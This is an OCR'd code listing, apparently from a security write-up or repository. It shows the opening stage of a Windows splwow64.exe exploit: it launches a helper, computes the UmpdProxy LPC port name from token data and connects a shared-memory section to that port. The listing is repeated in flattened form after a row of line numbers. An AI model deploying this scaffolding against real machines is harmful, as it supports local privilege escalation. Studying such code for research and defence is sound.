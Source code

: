 	return portHandle;
}

int main()
{
	printf("Spawn splwow64.exe\n");
	CHAR Path[0x100];
	GetCurrentDirectoryA(sizeof(Path), Path);
	PathAppendA(Path, "CreateDC.exe"); // x86 application with call to CreateDC
	WinExec(Path, 0);
	Sleep(1000);

	CreateDCW(L"Microsoft XPS Document Writer", L"Microsoft XPS Document Writer", NULL, NULL);

	printf("Get port name\n");
	UNICODE_STRING portName;
	if (!GetPortName(&portName))
	{
		printf("Failed to get port name\n");
		return 0;
	}

	printf("Create port\n");
	HANDLE portHandle = CreatePortSharedBuffer(&portName);
	if (!(portHandle && ClientView.ViewBase && ClientView.ViewRemoteBase))
	{
		printf("Failed to create port\n");
		return 0;
	}
}




123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778798081828384858687888990919293949596979899100101102103104105106107108109110111112

typedef struct _PORT_VIEW{ UINT64 Length; HANDLE SectionHandle; UINT64 SectionOffset; UINT64 ViewSize; UCHAR* ViewBase; UCHAR* ViewRemoteBase;} PORT_VIEW, *PPORT_VIEW; PORT_VIEW ClientView; typedef struct _PORT_MESSAGE_HEADER { USHORT DataSize; USHORT MessageSize; USHORT MessageType; USHORT VirtualRangesOffset; CLIENT_ID ClientId; UINT64 MessageId; UINT64 SectionSize;} PORT_MESSAGE_HEADER, *PPORT_MESSAGE_HEADER; typedef struct _PROXY_MSG { PORT_MESSAGE_HEADER MessageHeader; UINT64 InputBufSize; UINT64 InputBuf; UINT64 OutputBufSize; UINT64 OutputBuf; UCHAR Padding[0x1F8];} PROXY_MSG, *PPORT_MESSAGE; PROXY_MSG LpcReply;PROXY_MSG LpcRequest; int GetPortName(PUNICODE_STRING DestinationString){ void *tokenHandle; DWORD sessionId; ULONG length;  int tokenInformation[16]; WCHAR dst[256];  memset(tokenInformation, 0, sizeof(tokenInformation)); ProcessIdToSessionId(GetCurrentProcessId(), &sessionId);  memset(dst, 0, sizeof(dst));  if (NtOpenProcessToken(GetCurrentProcess(), READ_CONTROL | TOKEN_QUERY, &tokenHandle)		|| ZwQueryInformationToken(tokenHandle, TokenStatistics, tokenInformation, sizeof(tokenInformation), &length))	{		return 0; }  wsprintfW( dst, L"\\RPC Control\\UmpdProxy_%x_%x_%x_%x", sessionId, tokenInformation[2], tokenInformation[3], 0x2000); RtlInitUnicodeString(DestinationString, dst);  return 1;} HANDLE CreatePortSharedBuffer(PUNICODE_STRING PortName){ HANDLE sectionHandle = 0; HANDLE portHandle = 0; union _LARGE_INTEGER maximumSize; maximumSize.QuadPart = 0x20000;  NtCreateSection(&sectionHandle, SECTION_MAP_WRITE | SECTION_MAP_READ, 0, &maximumSize, PAGE_READWRITE, SEC_COMMIT, NULL); if (sectionHandle) { ClientView.SectionHandle = sectionHandle; ClientView.Length = 0x30; ClientView.ViewSize = 0x9000; ZwSecureConnectPort(&portHandle, PortName, NULL, &ClientView, NULL, NULL, NULL, NULL, NULL); }  return portHandle;} int main(){ printf("Spawn splwow64.exe\n"); CHAR Path[0x100]; GetCurrentDirectoryA(sizeof(Path), Path); PathAppendA(Path, "CreateDC.exe"); // x86 application with call to CreateDC WinExec(Path, 0); Sleep(1000);  CreateDCW(L"Microsoft XPS Document Writer", L"Microsoft XPS Document Writer", NULL, NULL);  printf("Get port name\n"); UNICODE_STRING portName; if (!GetPortName(&portName))	{		printf("Failed to get port name\n"); return 0; }  printf("Create port\n"); HANDLE portHandle = CreatePortSharedBuffer(&portName); if (!(portHandle && ClientView.ViewBase && ClientView.ViewRemoteBase))	{		printf("Failed to create port\n"); return 0; }}
